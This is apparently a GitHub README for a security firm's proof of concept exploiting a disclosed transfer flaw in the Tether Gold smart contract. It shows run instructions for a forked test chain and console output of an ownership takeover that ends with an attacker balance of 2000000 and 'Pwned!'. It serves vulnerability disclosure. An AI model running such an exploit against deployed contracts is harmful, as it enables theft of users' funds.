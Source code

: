 # TGoldPoc

This repo contains the PoC of the [public transfer vulnerability in the Tether Gold contract](https://blocksecteam.medium.com/public-transfer-vulnerability-of-the-tether-gold-smart-contract-662694607d35).


To use this PoC, sign up in [Phalcon Fork](https://phalcon.xyz/fork). Then add the access key to the PoC.



This PoC requires the web3.py, please install it first to use the PoC.

```
>>python tgold.py
--------------------start ----------
[*] Insufficent fund in "0x189e7947a9D9210eEC3A41dCf5f536bb1D7726F5". Get some Ether from vitalik.
[*] Insufficent fund in "0x14C4fffd8748CF0E23Af945a11eeaBC3416dD4c1". Get some Ether from vitalik.
[*] 0xAC3B242E2E561da9F4cE34746E67d004E6341FA0 Submit a transaction in the multisig wallet to transferOwnership to 0x189e7947a9D9210eEC3A41dCf5f536bb1D7726F5.
proposal_id: 2207
[*] Confirmed the transaction by 0xEe5207d3c88562fc814496Af0845B34CFD4afc8c.
[*] Confirmed the transaction by 0x61D5a4d5Bd270e59E9320243e574288e2a199fED.
[*] The pool owner is "0x189e7947a9D9210eEC3A41dCf5f536bb1D7726F5"
[*] Add a new owner "0x189e7947a9D9210eEC3A41dCf5f536bb1D7726F5" to TGold contract
[*] Before the attack - balance: 0
[*] Lunch the attack
[*] After the attack - balance: 2000000
[*] Pwned!
```

If you have any question please contact us contact@blocksec.com.



